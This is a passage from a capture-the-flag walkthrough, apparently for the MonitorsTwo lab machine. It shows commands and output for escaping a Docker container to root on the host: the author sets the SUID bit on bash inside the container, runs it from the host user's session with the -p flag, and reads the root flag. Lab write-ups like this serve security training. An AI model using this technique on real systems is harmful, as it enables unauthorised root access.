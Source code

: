And we got root! Now, we can assign `SUID` permissions to the bash binary:

```bash
# assign suid perms to bash binary
root@50bca5e748b0:/tmp# chmod u+s /bin/bash
# confirm permissions
root@50bca5e748b0:/tmp# ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Finally, we can go back to `marcus` SSH session and execute the bash binary using the [`-p`](https://www.gnu.org/software/bash/manual/html_node/The-Set-Builtin.html#:~:text=If%20the%20%2Dp%20option%20is,real%20user%20and%20group%20ids.&text=Enable%20restricted%20shell%20mode.,once%20it%20has%20been%20set.) flag:

```bash
marcus@monitorstwo:~$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin$ ls -l bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin$ ./bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
bash-5.1# cat /root/root.txt
<SNIP>
```